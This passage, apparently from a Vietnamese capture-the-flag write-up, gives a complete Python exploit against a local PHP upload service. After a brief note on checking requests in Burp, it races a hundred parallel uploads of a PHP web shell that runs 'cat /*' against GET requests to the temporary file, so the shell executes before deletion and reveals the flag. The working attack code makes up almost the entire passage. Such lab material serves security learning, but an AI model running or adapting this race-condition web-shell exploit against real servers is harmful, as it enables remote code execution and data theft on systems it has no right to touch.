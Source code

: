 Kiểm tra trong burp xem proxy có hiển thị đủ 2 request không, ở đây nó sẽ liên tục tạo từng cặp POST và GET nên không lo về vấn đề time.

Code Exploit:

```python 
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

# Biến flag để kiểm tra xem có sử dụng proxy hay không
USE_PROXY = False

# Proxy nếu cần debug
proxies = {
    "http": "http://localhost:8080",
    "https": "http://localhost:8080"
} if USE_PROXY else {}

rand_num = "0058"  # Số này có thể thay đổi theo yêu cầu của bạn

# Hàm upload shell
def upload_shell(rand_num):
    url = "http://localhost:8001/upload.php"
    files = {
        "file": ("shell.php", "<?php echo shell_exec('cat /*'); ?>", "application/octet-stream")
    }
    try:
        r = requests.post(url, files=files, timeout=5, proxies=proxies)
        return r.status_code
    except Exception as e:
        return f"upload error: {e}"

# Hàm kiểm tra flag
def try_read():
    url = f"http://localhost:8001/tmp/{rand_num}.php"
    try:
        r = requests.get(url, timeout=5, proxies=proxies)  
        if "cyber" in r.text:
            return r.text.strip()  # Trả về flag nếu tìm thấy
    except Exception:
        return None
    return None

# Hàm chạy song song POST và GET với nhiều threads
def loop_until_flag(max_requests=10000):
    total_requests = 0
    with ThreadPoolExecutor(max_workers=100) as executor:
        while total_requests < max_requests:
            futures_upload = [executor.submit(upload_shell, rand_num) for _ in range(100)]
            futures_read = [executor.submit(try_read) for _ in range(50)]  # Kiểm tra flag với 50 threads
            
            # Chờ tất cả các task (futures) trong futures_upload hoàn thành
            for f in as_completed(futures_upload):
                res = f.result()
                total_requests += 1  # Cập nhật số lượng request đã gửi
                print(f"Upload result: {res}")
            
            # Kiểm tra kết quả từ futures_read
            for f in as_completed(futures_read):
                res = f.result()
                if isinstance(res, str) and "cyber" in res:
                    print(f"[+] Found the flag at attempt {total_requests}")
                    print(f"Found flag: {res}")
                    return res  # Dừng lại khi tìm thấy flag
```